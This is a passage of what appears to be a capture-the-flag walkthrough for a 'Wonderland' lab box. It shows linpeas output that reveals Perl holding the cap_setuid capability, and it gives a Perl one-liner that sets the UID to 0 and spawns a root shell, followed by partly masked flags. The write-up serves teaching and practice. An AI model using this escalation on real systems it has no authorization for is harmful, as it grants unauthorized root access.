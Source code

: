 At least we're actually signed in as hatter now. After some manual poking around, I decided to run `linpeas.sh`. This result was pretty interesting.
```bash
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
Current capabilities:
Current: =
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	0000003fffffffff
CapAmb:	0000000000000000

Shell capabilities:
0x0000000000000000=
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	0000003fffffffff
CapAmb:	0000000000000000

Files with capabilities (limited to 50):
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

If we look at the link attached we learn the following.
> Linux capabilities provide a **subset of the available root privileges to a process**. This effectively breaks up root **privileges into smaller and distinctive units**. Each of these units can then be independently be granted to processes. This way the full set of privileges is reduced and decreasing the risks of exploitation.

`/usr/bin/perl` has the `set_uid` capability, meaning we can just set our UID to root. After reading a little bit more from hacktricks, we can use [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#capabilities) to find the command that will take us to root

```bash
hatter@wonderland:/tmp$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

I can then grab the user flag (which is in the root directory), and the root flag which we missed from before.

```bash
# cat /root/user.txt
thm{"Cu***********************}
# cat /home/alice/root.txt
thm{Twinkle***************************************************}
```